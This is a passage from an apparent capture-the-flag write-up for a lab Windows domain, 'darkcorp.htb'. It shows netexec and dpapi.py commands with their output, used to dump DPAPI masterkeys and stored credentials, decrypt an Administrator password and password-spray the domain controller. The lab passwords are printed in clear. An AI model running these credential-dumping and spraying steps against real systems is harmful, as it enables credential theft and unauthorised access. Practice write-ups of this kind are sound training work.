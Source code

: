 time to `DPAPI`

```bash
nxc smb 172.16.20.2 --use-kcache --dpapi
SMB         172.16.20.2     445    WEB-01           [*] Windows Server 2022 Build 20348 x64 (name:WEB-01) (domain:darkcorp.htb) (signing:False) (SMBv1:False)
SMB         172.16.20.2     445    WEB-01           [+] darkcorp.htb\Administrator from ccache (Pwn3d!)
SMB         172.16.20.2     445    WEB-01           [*] Collecting DPAPI masterkeys, grab a coffee and be patient...
SMB         172.16.20.2     445    WEB-01           [+] Got 5 decrypted masterkeys. Looting secrets...
SMB         172.16.20.2     445    WEB-01           [SYSTEM][CREDENTIAL] Domain:batch=TaskScheduler:Task:{7D87899F-85ED-49EC-B9C3-8249D246D1D6} - WEB-01\Administrator:But_Lying_Aid9!

```

and got new password

```bash
32B2774DF751FF7E28E78AE75C237A1E
6037d071-cac5-481e-9e08-c4296c0a7ff7

dpapi.py masterkey -file 6037d071-cac5-481e-9e08-c4296c0a7ff7 -sid S-1-5-21-2988385993-1727309239-2541228647-500  -password 'But_Lying_Aid9!'   
dpapi.py credential -file 32B2774DF751FF7E28E78AE75C237A1E -key 0xac7861aa1f899a92f7d8895b96056a76c580515d8a4e71668bc29627f6e9f38ea289420db75c6f85daac34aba33048af683153b5cfe50dd9945a1be5ab1fe6da

Username    : Administrator
Unknown     : Pack_Beneath_Solid9!
```

Lets do password spray

```bash
nxc smb 172.16.20.1 -u users.txt -p 'Pack_Beneath_Solid9!' --continue-on-success
```

![alt text](../assets/images/darkcorp29.png)

its work for john.w!!!!

### GenericWrite
